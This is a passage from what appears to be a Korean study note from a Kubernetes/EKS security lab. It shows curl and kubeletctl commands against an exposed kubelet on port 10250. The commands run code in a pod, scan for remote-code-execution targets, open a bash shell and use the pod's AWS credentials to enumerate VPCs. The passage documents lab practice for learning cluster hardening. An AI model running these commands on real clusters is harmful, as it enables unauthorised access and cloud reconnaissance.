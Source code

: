 ```bash
curl -k https://$N1:10250/run/default/myawscli/my-aws-cli -d "cmd=aws --version"

# remote code execution이 가능한 containers 조회
kubeletctl -s $N1 scan rce

# Run commands inside a container
kubeletctl -s $N1 exec "/bin/bash" -n default -p myawscli -c my-aws-cli

# 내부 쉘에서 아래 실행
export
aws --version
aws ec2 describe-vpcs --region ap-northeast-2 --output table --no-cli-pager
exit

# Return resource usage metrics (such as container CPU, memory usage, etc.)
kubeletctl -s $N1 metrics
```

![vulnerable pods to RCE](images/vulnerable-pods-to-rce.png)

## 6. 실습 못해본 것

- 파드/컨테이너 보안 컨텍스트
  - LB Controller IRSA 덕분에, 나중에 실습해야 함 (To-Do)
